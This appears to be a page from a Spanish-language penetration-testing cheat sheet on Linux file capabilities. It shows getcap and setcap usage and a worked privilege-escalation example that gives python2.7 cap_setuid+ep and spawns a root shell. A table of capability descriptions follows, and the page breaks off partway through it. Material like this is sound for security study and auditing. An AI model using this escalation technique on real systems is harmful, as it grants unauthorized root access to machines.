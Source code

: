 # Capabilities

## Listar capacidades de binarios

```sh
╭─swissky@lab ~ 
╰─$ /usr/bin/getcap -r  /usr/bin

/usr/bin/fping                = cap_net_raw+ep 
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

## Editar capacidades

```sh
/usr/bin/setcap -r /bin/ping            # remove 
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

## Capacidades interesantes

Tener la capacidad =ep significa que el binario tiene todas las capacidades.

```sh
getcap openssl /usr/bin/openssl openssl=ep
```

Alternativamente, se pueden utilizar las siguientes capacidades para actualizar sus privilegios actuales.

```sh
cap_dac_read_search # read anything 
cap_setuid+ep # setuid
```

Ejemplo de escalada de privilegios con `cap_setuid+ep`

```sh
sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")' sh-5.0 # id

uid=0(root) gid=1000(swissky)
```

| Capabilities name    | Description                                                                                                                                 |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| CAP_AUDIT_CONTROL    | Allow to enable/disable kernel auditing                                                                                                     |
| CAP_AUDIT_WRITE      | Helps to write records to kernel auditing log                                                                                               |
| CAP_BLOCK_SUSPEND    | This feature can block system suspends                                                                                                      |
| CAP_CHOWN            | Allow user to make arbitrary change to files UIDs and GIDs                                                                                  |
| CAP_DAC_OVERRIDE     | This helps to bypass file read, write and execute permission checks                                                                         |
| CAP_DAC_READ_SEARCH  | This only bypasses file and directory read/execute permission checks                                                                        |
| CAP_FOWNER           | This enables bypass of permission checks on operations that normally require the filesystem UID of the process to match the UID of the file |
| CAP_KILL             | Allow the sending of signals to processes belonging to others                                                                               |